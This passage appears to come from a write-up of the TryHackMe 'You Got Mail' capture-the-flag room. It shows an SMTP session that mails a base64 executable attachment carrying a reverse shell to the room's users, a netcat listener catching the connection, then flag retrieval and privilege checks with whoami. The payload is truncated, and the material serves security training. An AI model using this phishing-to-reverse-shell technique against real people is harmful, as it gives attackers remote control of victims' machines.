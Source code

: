 ```shell
 -> Content-Transfer-Encoding: BASE64
 ->
 -> TVqQAAMAAAAE[...]AAAAAAAAAAAAAAAAAAA==
 ->
 -> ------=_MIME_BOUNDARY_000_8249--
 ->
 ->
 -> .
<-  250 Queued (0.141 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

We send the mail to all the possible users and after sending it to `tchikondi@brownbrick.co`, my netcat listener receives a connection from the reverse shell payload.

![3](/assets/img/tryhackme/ctf/yougotmail/3.png)

And we can find the **user’s flag** on his Desktop :

```shell
C:\Users\wrohit\Desktop>type flag.txt
type flag.txt
THM{[REDACTED]}
```

## What is the password of wrohit ?

As we connect to this account, we can check what kind of privileges we have and what groups our account belongs to :

```shell
C:\Users\wrohit\Documents>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                                            Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
```